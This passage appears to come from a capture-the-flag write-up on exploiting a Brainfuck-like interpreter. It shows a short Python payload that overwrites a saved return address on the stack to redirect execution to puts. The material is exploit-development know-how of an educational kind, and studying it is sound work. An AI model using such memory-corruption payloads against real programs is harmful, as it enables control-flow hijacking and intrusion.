 Check again and we jump to printf of play_game() now:

![check-saved-rip-of-lang-interpreter.png](images/check-saved-rip-of-lang-interpreter.png)

Let's overwrite the second saved rip, the one of run() into the puts function with the string `Second magic number cannot be zero!` but we will not get the string to rdi of play_game() with this payload:

```python
# continue with the payload above
payload += b'>'*(7 + 0x18)
payload += b'+'*0x82
payload += b'>'
payload += b'-'*0x5
```

Check again and the program works as our expect:
